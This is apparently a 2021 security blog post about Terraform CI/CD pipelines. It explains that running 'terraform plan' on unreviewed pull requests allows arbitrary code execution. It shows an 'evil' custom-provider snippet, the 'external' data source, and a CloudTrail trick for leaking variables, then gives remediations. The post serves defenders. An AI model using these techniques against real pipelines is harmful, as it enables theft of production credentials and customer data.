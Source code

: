 ```yaml
---
layout: post
title: "Terraform Plan RCE"
date: 2021-05-11T11:00:00+00:00
author: alxk
sitemap: false
keywords: "security terraform cicd"
description: "Running a Terraform plan on unstrusted code can lead to RCE and credential exfiltration."
---
```


# Terraform Plan "RCE"

Based on a couple of recent conversations and blog posts on Terraform pull request automation, it seems that a lot of people don't realise that running a `terraform plan` on untrusted code can lead to remote code execution. If you're running a `plan` on production resources from untrusted code (say, on a pull request before it's been reviewed and merged to a protected production branch) then that untrusted code could run any commands it wants in your production CI/CD pipeline. This could lead to production credentials or customer data being exfiltrated, for example.

This also affects Terraform pull request automation solutions like [Atlantis](https://www.runatlantis.io/).

We'll start by discussing two ways to do this before covering remediation.

## Setup

We'll assume there's a CI/CD pipeline for a repository that contains Infrastructure-as-Code. At some point after a PR is opened and before the PR has been accepted and merged to a protected production branch, the CI/CD pipeline runs a `terraform init` followed by a `terraform plan` on the production infrastructure.

People usually do this to see how a PR will affect production before it's merged.

It's not rare for companies to encourage developers to submit a PR to an infrastructure repository for infrastructure they need. That PR will then be reviewed and merged by a member of an Ops team. In these cases, it could be that anyone in the company with access to the VCS can submit a PR to the infrastructure repository.

In other cases teams may be running their own infrastructure end-to-end but still protect their production branch, and so expect production infrastructure changes to be peer-reviewed.

We'll now discuss how this approach to "production planning on the PR" can lead to arbitrary code execution in the CI/CD pipeline in the production context. An attacker who is in a position to open a PR can use this to exfitrate production credentials or customer data, bypassing defensive measures like production branch protections.

## Using a Custom Provider

Anyone can write a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup) and publish it to the [Terraform Registry](https://registry.terraform.io/). You could also try to pull a custom provider from a private registry.

That's it:

- write a custom provider than runs some malicious code (like exfiltrating credentials or customer data)
- publish it to the Terraform Registry
- add the provider to the Terraform code in a feature branch
- open a PR for the feature branch

```
terraform {
  required_providers {
    evil = {
      source  = "evil/evil"
      version = "1.0"
    }
  }
}

provider "evil" {}
```

Since the provider will be pulled in during the `init` and run some code during the `plan`, you have arbitrary code execution.

## Using the `external` Provider

A much more elegant solution was suggested by my colleague [Chongyang Shi](https://scy.email). Terraform offers the [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. You can use the `external` data source to run arbitrary code during a `plan`.

The following example is given by Terraform in the [docs](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source):

```
data "external" "example" {
  program = ["python", "${path.module}/example-data-source.py"]

  query = {
    # arbitrary map from strings to strings, passed
    # to the external program as the data query.
    id = "abc123"
  }
}
```

The `query` will be passed as a JSON string on `stdin` to the `program`; you could use this to grab variables from Terraform.

### Abusing Common Providers

After extending the discussion on a cloud security forum, a couple of people have suggested ways of exfiltrating variables by abusing common providers.

For example, as an attacker you could leverage the AWS provider to request a resource in another account you control and set the resource name to a Terraform variable. You could then check the CloudTrail logs in the other account to retrieve the value.

## Remediation

### `-plugin-dir`

By default, Terraform will search for, and install, plugins using default search paths. This includes pulling the plugins directly from the Terraform Registry. You can instead install the plugins yourself in a local directory and pass the `-plugin-dir` option to the `plan`:

```
$ terraform plan -plugin-dir /tf/plugins
```

This will prevent Terraform from dynamically pulling in new plugins.

If you're using Atlantis you may also be able to do this by modifying the default Atlantis workflows.

I have to caution that while `-plugin-dir` with whitelisted providers may be a mitigation against arbitrary RCE, it is unlikely to be sufficient to prevent exfiltration of variables via more creative ways (see "Abusing Common Providers" above).

### Read-only `plan` role

Ideally you use read-only roles for running your `plan`. This is not always practical though and note that even if you can pull this off in AWS or GCP, you may have other things (like database credentials) in your Terraform state file or environment that could be accessed by untrusted code.

### Don't do a production `plan` on untrusted code!

Just don't run a production `plan` on untrusted code! Only do a production `plan` on trusted code that's been peer-reviewed and merged to your protected production branch. Ideally you have a manual approval step after your production `plan` and before your production `apply`.

## Conclusion

A `terraform plan` is not as passive as you may think. If you run plans on PRs you could be opening a path to bypassing branch protections and your expected two-person process for production changes.

An attacker may only need to compromise one of your engineers to abuse the Infrastructure-as-Code CI/CD pipeline and move to production.
